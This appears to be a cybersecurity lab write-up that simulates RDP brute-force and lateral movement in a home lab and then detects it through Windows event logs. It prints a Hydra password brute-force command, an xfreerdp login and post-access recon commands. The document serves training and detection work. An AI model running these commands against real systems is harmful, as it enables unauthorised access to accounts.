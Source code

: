 # Scenario 2: Lateral Movement via RDP Brute Force

## ✅Simulated Activity:
Simulated brute-force login attempts over Remote Desktop Protocol (RDP), and investigated for signs of lateral movement and reconnaissance.

---

## Attack Simulation

### Step 1: Enable RDP Access on Target
```powershell
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```

### Step 2: Brute-force Using Hydra (Kali)
```bash
echo -e "123456\nadmin\npassword\nAdmin123" > passlist.txt
hydra -t4 -V -f -l Administrator -P passlist.txt rdp://<Win10-IP>
```
![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint02_lateral_movement_brute%20force_attack.png)

![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint02_lateral_movement_brute_force_logs.png)

![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint02_lateral_movement_brute_force_after_ac_lockout.png)

### Step 3: After finding the correct password access Remote Desktop
```bash
xfreerdp /u:<username> /p:<correct_password> /v:<Win10-IP>
```

### Post-Access Recon Simulation
Executed as simulation of attacker post-access:
```powershell
whoami /all
quser
net user
ipconfig /all
```

![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint02_lateral_movement_rdp_accessed.png)

> During brute-force simulation using Hydra, account lockout policy was triggered after multiple invalid attempts (41 total), as confirmed in Event Viewer logs (4625). Subsequent connection attempts failed, accurately reflecting Windows default security posture. This proves the realism of the simulation and how endpoint systems enforce threshold policies against brute-force lateral movement.

## Detection
- Windows Event Viewer
 - Event ID 4625: Failed login
   - for the first 10 attempts the failiure reason was bad password.
   - after 10th brute force attempt, the failiure reason was account lockout!
 - Event ID 4624: Successful login
 - Logon Type: 10 = RDP
 - Multiple failures logged from Kali IP = Brute force attack simulation

![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint02_lateral_movement_rdp_log.png)

### # Notes:
- Only one Windows VM used. Lateral movement was conceptual
- Hydra successfully simulated real-world credential brute-force via RDP
- Hit a realistic lockout threshold
- Observed 4625 logs
- Learned that real systems fight back when brute-forced

Interview Notes:  
Q: How do you detect RDP brute-force attacks?  
A: Monitor Event ID 4625 with LogonType = 10. Correlate repeated failures from a single source IP. Use Sysmon + SIEM for network and process telemetry.

